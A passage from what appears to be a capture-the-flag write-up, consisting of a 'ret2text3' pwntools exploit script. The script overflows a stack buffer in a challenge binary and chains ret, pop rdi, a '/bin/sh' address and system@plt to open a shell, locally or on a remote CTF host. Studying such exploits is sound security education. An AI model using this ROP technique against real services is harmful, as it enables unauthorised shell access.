 ```python
```

### ret2text3

:star2:exp:

```python
from pwn import *
from LibcSearcher import *
import sys
remote_addr = ["gxh191.top",25534]
#libc=ELF('')
elf = ELF('./pwn3_2')
if len(sys.argv) == 1:
    context.log_level="debug" 
    #p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g","1234","./stack"]) 
    #p = process(["qemu-aarch64", "-L", ".", "./stack"]) 
    p = process("./pwn3_2")
    context(arch='amd64', os='linux')
if len(sys.argv) == 2 :
    if 'r' in sys.argv[1]:
        p = remote(remote_addr[0],remote_addr[1])
    if 'n' not in sys.argv[1]:
        context.log_level="debug" 
        #context(arch = 'amd64', os = 'linux')
r = lambda : p.recv()
rl = lambda : p.recvline()
rc = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()
pr = lambda name,x : log.info(name+':'+hex(x))

#gdb.attach(p)
system_plt = p64(elf.plt['system'])
pop_rdi = p64(0x4012c3)
binsh = p64(0x404090)
ret = p64(0x40101a)

ru(b':\n')
payload = b'/bin/sh\x00'
s(payload)
ru(b'something: ')
payload = b'a' * (0x10 + 8) + ret + pop_rdi + binsh + system_plt
s(payload)

shell()
```
